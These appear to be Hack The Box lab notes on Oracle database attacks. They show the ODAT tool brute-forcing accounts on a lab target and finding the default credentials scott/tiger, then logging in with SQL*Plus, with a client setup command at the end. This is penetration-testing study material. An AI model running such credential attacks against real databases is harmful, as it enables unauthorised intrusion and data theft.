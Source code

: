 ## ODAT

Oracle Database Attacking Tool (ODAT) is an open-source penetration testing tool written in Python and designed to enumerate and exploit vulnerabilities in Oracle databases. It can be used to identify and exploit various security flaws in Oracle databases, including SQL injection, remote code execution, and privilege escalation.

```
NiteshKS22@htb[/htb]$ ./odat.py all -s 10.129.204.235

[+] Checking if target 10.129.204.235:1521 is well configured for a connection...
[+] According to a test, the TNS listener 10.129.204.235:1521 is well configured. Continue...

...SNIP...

[!] Notice: 'mdsys' account is locked, so skipping this username for password           #####################| ETA:  00:01:16 
[!] Notice: 'oracle_ocm' account is locked, so skipping this username for password       #####################| ETA:  00:01:05 
[!] Notice: 'outln' account is locked, so skipping this username for password           #####################| ETA:  00:00:59
[+] Valid credentials found: scott/tiger. Continue...

...SNIP...
```

### SQLplus - Log In

```
NiteshKS22@htb[/htb]$ sqlplus scott/tiger@10.129.204.235/XE

SQL*Plus: Release 21.0.0.0.0 - Production on Mon Mar 6 11:19:21 2023
Version 21.4.0.0.0

Copyright (c) 1982, 2021, Oracle. All rights reserved.

ERROR:
ORA-28002: the password will expire within 7 days



Connected to:
Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production

SQL>
```

**script**

```
NiteshKS22@htb[/htb]$ sudo sh -c "echo /usr/lib/oracle/12.2/client64/lib > /etc/ld.so.conf.d/oracle-instantclient.conf";sudo ldconfig
```
